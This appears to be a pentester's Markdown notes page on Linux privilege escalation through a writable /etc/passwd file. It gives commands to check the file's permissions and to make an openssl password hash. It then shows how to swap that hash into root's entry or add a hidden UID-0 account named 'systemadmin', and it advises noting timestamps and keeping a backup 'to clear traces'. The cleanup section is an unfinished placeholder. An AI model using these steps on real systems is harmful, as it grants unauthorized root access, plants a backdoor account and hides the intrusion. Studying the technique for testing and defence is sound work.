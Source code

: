 # Living off the Land

## 01 - Detect

Weak File Permissions - Writable `/etc/passwd`

```
$ ls -l /etc/passwd
```

## 02 - Exploit

Generate a new hash password.

```
$ openssl passwd -1 thispass123
```

For older linux systems

```
$ openssl passwd -1 -salt new thispass123
```

> [!NOTE] Collect Timestamps
> Before modifying the `/etc/passwd` file. Take note of the timestamp and keep a backup copy to clear traces ahead of time.

```
$ stat /etc/passwd

$ cp /etc/passwd /tmp/passwd.bak
```

### 2.1 - Overwrite password via hash digest

Replace the letter `x` for the newly generated salt hash for the `/etc/passwd`.

```
root:x:0:0:root:/root:/bin/bash
```

Authenticate as root with the password

```
$ su root
```

### 2.2 - Create User Account

Create a new account as root with the previous generated hashed password. Here's what the format looks like:

> [!INFO]
> Replace `<new_hash>` with the hashed password.

```
systemadmin:<new_hash>:0:0:Sysadmin:/root:/bin/bash
```

## 03 - Cleanup

TODO: Fill in this info

```
$ touch
```

---
## References

- [Linux Privesc Wrong Permissions](https://wixnic.github.io/linux-privesc-wrong-permissions/)

- [Linux Privilege Escalation Writable Passwd File](https://steflan-security.com/linux-privilege-escalation-writable-passwd-file/)